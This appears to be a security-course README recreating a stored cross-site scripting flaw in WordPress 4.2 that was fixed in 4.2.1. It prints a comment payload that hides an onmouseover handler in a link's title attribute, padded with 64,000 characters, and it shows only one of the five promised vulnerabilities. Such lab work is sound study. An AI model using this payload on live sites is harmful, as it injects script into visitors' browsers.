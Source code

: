 # README

Time Spent: 4 hours in total

Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

XXS
  1. Summary: 
  
      I am using XSS with WP 4.2, which was fixed in version 4.2.1.
  2. GIF Walkthrough:
  
     ![](https://imgur.com/a/w49Bk9I)
  3. Steps to Recreate:
  
     You have to comment on a post and insert the following into a comment: 
     
     <a title='x onmouseover=alert(unescape(/hello%20world/.source))          style=position:absolute;left:0;top:0;width:5000px;height:5000px <You will then insert 64,000 of a character and hit comment>
  4. Affected Source Code: 
      None

